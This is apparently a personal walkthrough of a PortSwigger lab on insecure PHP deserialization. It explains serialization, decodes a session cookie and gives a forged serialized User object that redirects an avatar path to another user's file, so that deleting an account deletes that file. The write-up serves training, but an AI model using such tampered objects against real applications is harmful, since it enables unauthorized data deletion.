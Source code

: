 
# Table of Contents

1.  [What is serialization ?](#org1e61ffa)
        1.  [Serialization vs Deserialization](#org19c1f71)
2.  [Deserialized object](#org8968ffe)
3.  [Customized object](#orgb9fc66e)



<a id="org1e61ffa"></a>

# What is serialization ?

Serialization is the process of converting complex data structures, such as objects and their fields, into a &ldquo;flatter&rdquo; format that can be sent and received as a sequential stream of bytes.

Crucially, when serializing an object, its state is also persisted. In other words, the object&rsquo;s attributes are preserved, along with their assigned values.


<a id="org19c1f71"></a>

### Serialization vs Deserialization

Deserialization is the process of restoring this byte stream to a fully functional replica of the original object, in the exact state as when it was serialized.

The website&rsquo;s logic can then interact with this deserialized object, just like it would with any other object.


<a id="org8968ffe"></a>

# Deserialized object

-   Edit the serialized object in the session cookie
-   Delete files from Carlos home directory

Lab ->  <https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization>

-   Credentials:
    
    wiener:peter

---

-   At web page lab, CTRL + SHIFT + i to open `dev tools`
    -   Get the sessions cookie at `dev tools`
        Application > storage > Cookies
    -   The cookie are Base64 encode, at terminal ->

---

    echo 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJoaG5sYWJzZzlpcW1kNTMycXRya3h5eXRxNHQzMXhiYiI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=' | base64 -d

-   And we get an deserialized Object ->
    O:4:&ldquo;User&rdquo;:3:{s:8:&ldquo;username&rdquo;;s:6:&ldquo;wiener&rdquo;;s:12:&ldquo;access<sub>token</sub>&rdquo;;s:32:&ldquo;hhnlabsg9iqmd532qtrkxyytq4t31xbb&rdquo;;s:11:&ldquo;avatar<sub>link</sub>&rdquo;;s:19:&ldquo;users/wiener/avatar&rdquo;;}

O -> Object
s -> String
s:3 -> string lenght
; -> separator

-   We can modify that object, encode base64 again, and send to web page at our original cookie place, with `dev tools`


<a id="orgb9fc66e"></a>

# Customized object

-   Customize the user home path at cookie to carlos /home directory
    O:4:&ldquo;User&rdquo;:3:{s:8:&ldquo;username&rdquo;;s:6:&ldquo;wiener&rdquo;;s:12:&ldquo;access<sub>token</sub>&rdquo;;s:32:&ldquo;hhnlabsg9iqmd532qtrkxyytq4t31xbb&rdquo;;s:11:&ldquo;avatar<sub>link</sub>&rdquo;;s:23:&ldquo;/home/carlos/morale.txt&rdquo;;}
    
    Now when click at delete account func, the deleted account will be carlos account
    
    !

